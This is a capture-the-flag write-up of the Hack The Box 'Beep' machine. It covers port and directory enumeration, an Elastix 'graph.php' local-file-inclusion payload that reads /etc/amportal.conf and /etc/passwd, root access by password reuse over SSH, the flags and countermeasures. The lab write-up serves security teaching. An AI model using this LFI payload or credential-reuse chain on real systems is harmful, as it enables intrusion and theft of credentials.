






# Beep


#### Machine Release Date: March 15, 2017

## Active Ports

```bash
nmap -p22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000 -sC -sV -oA nmap/full-tcp-version 10.10.10.7
```

```none
Nmap scan report for 10.10.10.7
Host is up (0.038s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP PIPELINING EXPIRE(NEVER) UIDL AUTH-RESP-CODE RESP-CODES LOGIN-DELAY(0) USER TOP STLS IMPLEMENTATION(Cyrus POP3 server v2)
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: STARTTLS Completed MULTIAPPEND OK LITERAL+ CATENATE UIDPLUS NAMESPACE X-NETSCAPE BINARY IMAP4rev1 LIST-SUBSCRIBED LISTEXT ATOMIC RENAME THREAD=REFERENCES QUOTA IDLE THREAD=ORDEREDSUBJECT ANNOTATEMORE SORT=MODSEQ ID CONDSTORE URLAUTHA0001 CHILDREN NO MAILBOX-REFERRALS RIGHTS=kxte SORT IMAP4 UNSELECT ACL
443/tcp   open  ssl/https?
|_ssl-date: 2020-09-07T01:57:37+00:00; +2m48s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 2m47s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  6 21:57:24 2020 -- 1 IP address (1 host up) scanned in 356.80 seconds
```

## Vulnerability Discovery

As seen in the nmap scan above, this host had a lot of services running on it. After searching for publicly known exploits for all the software above, I turned out that the service on port 80/443 was potentially the most vulnerable. Too keep things simple, navigating to `http://10.10.10.7` will get you redirected to `https://10.10.10.7` which happens to be using TLS1.0 which is no longer supported in modern Linux distributions. A way to enable TLS 1.0 on modern Linux distributions is to use the following `openssl.conf` configuration:

```none
openssl_conf = openssl_init

[openssl_init]
ssl_conf = ssl_sect

[ssl_sect]
system_default = system_default_sect

[system_default_sect]
CipherString = DEFAULT@SECLEVEL=1
```

You can then load this SSL configuration into your shell with the following command:


```bash
export OPENSSL_CONF=[PATH TO THIS CONFIG FILE]
```

I am mentioning this in advance because it will make troubleshooting exploits much easier later on.


Navigating to the web service on port 443 presented me with the following login page:



Attempting to login with trivial default credentials like `admin:admin` failed, so I figured I should enumerate a bit more to discover more web content:

```none
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -f -k -u https://10.10.10.7/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.7/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/07 12:20:35 Starting gobuster
===============================================================
/images/ (Status: 200)
/cgi-bin/ (Status: 403)
/admin/ (Status: 302)
/modules/ (Status: 200)
/themes/ (Status: 200)
/help/ (Status: 200)
/error/ (Status: 403)
/var/ (Status: 200)
/mail/ (Status: 200)
/static/ (Status: 200)
/lang/ (Status: 200)
/libs/ (Status: 200)
/panel/ (Status: 200)
/icons/ (Status: 200)
/configs/ (Status: 200)
/mailman/ (Status: 403)
/pipermail/ (Status: 200)
/recordings/ (Status: 200)
/vtigercrm/ (Status: 200)
===============================================================
2020/09/07 12:20:37 Finished
===============================================================
```

I didn't find anything too interesting in the directories listed above, so I tried fingerprinting the `elastix` install version by running `exiftool` against its `favicon.ico`.

```none
$ wget --no-check-certificate https://10.10.10.7/favicon.ico
--2020-09-07 10:35:41--  https://10.10.10.7/favicon.ico
Connecting to 10.10.10.7:443... connected.
WARNING: The certificate of ‘10.10.10.7’ is not trusted.
WARNING: The certificate of ‘10.10.10.7’ doesn't have a known issuer.
WARNING: The certificate of ‘10.10.10.7’ has expired.
The certificate has expired
The certificate's owner does not match hostname ‘10.10.10.7’
HTTP request sent, awaiting response... 200 OK
Length: 894 [text/plain]
Saving to: ‘favicon.ico’

favicon.ico                                    100%[====================================================================================================>]     894  --.-KB/s    in 0s

2020-09-07 10:35:41 (45.5 MB/s) - ‘favicon.ico’ saved [894/894]
```

```none
kali@kali:~/htb/boxes/beep/web-443/images$ exiftool favicon.ico
ExifTool Version Number         : 12.04
File Name                       : favicon.ico
Directory                       : .
File Size                       : 894 bytes
File Modification Date/Time     : 2011:11:01 15:56:22-04:00
File Access Date/Time           : 2020:09:07 10:35:41-04:00
File Inode Change Date/Time     : 2020:09:07 10:35:41-04:00
File Permissions                : rw-r--r--
Error                           : Unknown file type
```

Note that the file modification date of `favicon.ico` was November 1, 2011 which potentially indicated an old installation of `elastix`.
At this point, I searched the [exploit database](https://www.exploit-db.com/) for known exploits against `elastix`. I would prioritize exploits that were written after November 1, 2011.



## Exploitation (Elastix 2.2.0 - 'graph.php' Local File Inclusion)

I tried all remote code execution and LFI exploits and eventually ran the [following exploit](https://www.exploit-db.com/exploits/37637):

```none
$ ./37637.pl
         Elastix 2.2.0 LFI Exploit
         code author cheki
         0day Elastix 2.2.0
         email: anonymous17hacker{}gmail.com

 Target: https://ip https://10.10.10.7

[-] not successful
```

If an exploit doesn't work, especially after you properly fingerprinted a service's version, I always recommend debugging it to figure out why it failed.
After some troubleshooting, I realized this exploit didn't immediately work because of two conditions:

1. The service on port 443 was using TLS 1.0 which was disabled by default on my Kali's installation of openssl.
2. The exploit code could not verify the TLS certificate presented by the server.

After reading the exploit code, I found that I could simply navigate to `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` in my browser to verify whether the host was vulnerable to this LFI attack.



As seen in the image above, I was able to get the following credentials:

```none
asteriskuser:jEhdIekWmdjE (Database)
admin:jEhdIekWmdjE (Asterisk Manager Application)
```

## Privilege Escalation (Credential Reuse)

I figured there would also be a lot of credential reuse since the password `jEhdIekWmdjE` was reused throughout the `/etc/amportal.conf` file.

I then used the credentials to access the `elastix` admin panel:



After some brief searching, I tried to get the `Asterisk CLI` to execute shell commands for me, but I was unsuccessful. Since I was also unsuccessful in running most of the known exploits against it, I figured I would search for another attack vector. Fortunately, this time I had access to the software versions installed on the beep host:



Since I couldn't find any more publicly known exploits for the software installed, I remembered that the `webmin` service on port 10000 required a login.



After doing some research on webmin, I learned that it used the UNIX `/etc/shadow` file to authenticate. Since I previously noticed password reuse in the `/etc/amportal.conf` file, I figured I might as well try enumerating the users that should have an interactive login session on the system and try logging in as each user with that password.

I first copied the `/etc/passwd` file from my web browser by exploiting the LFI vulnerability at `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action` and searching for users with an interactive login session:

```none
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

Starting from root, I tried reusing the `jEhdIekWmdjE` password to login as each user via SSH starting from `root`. Note that since the beep host is running a very old version of CentOS, it only works with weak cryptographic protocols, so I needed to specify one of the legacy key exchange algorithms to my SSH client in order to login:

```none
$ ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password:
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

At this point, I had root access to the beep machine and captured both the `user.txt` and `root.txt` flags:

```none
[root@beep home]# find . -name user.txt -ls
622616    4 -rw-rw-r--   1 fanis    fanis          33 Apr  7  2017 ./fanis/user.txt
[root@beep home]# cat ./fanis/user.txt
aeff3def0c765c2677b94715cffa73ac
```

```none
[root@beep home]# cat /root/root.txt
d88e006123842106982acce0aaf453f0
```

## Countermeasures

* Update Elastix and Webmin to the latest versions currently available. Ideally, update all software to their latest versions and uninstall any software that is not being used.
* Never reuse credentials.
